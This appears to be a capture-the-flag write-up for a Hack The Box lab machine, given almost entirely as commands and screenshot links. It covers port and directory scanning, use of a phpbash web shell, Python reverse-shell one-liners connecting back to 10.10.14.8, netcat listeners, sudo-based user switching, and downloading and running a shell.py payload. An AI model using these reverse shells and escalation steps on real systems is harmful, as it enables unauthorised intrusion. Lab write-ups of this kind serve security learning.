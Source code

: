 ```
(http://10.10.10.68/dev/phpbash.php
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
sudo -l
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -u scriptmanager bash -i
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
python -c shell.py)
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bc9cd0fd-fd2e-45f4-9c77-be705cc2acd2)

![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fw 22 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1aa722cc-5bca-43a1-b614-880a38a27f10)


```
http://10.10.10.68/dev/phpbash.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/178b962b-8973-473b-995f-30bb71bbb29b)
f-a8f4-c5d1578b3fa2)


```
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
```
nc -nlvp 4444
python -c shell.py
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
![image](https://user-images.githubusercontent.com/33616880/231085786-4b06a14b-e3d7-4406-98b4-ab4f676953d9.png)
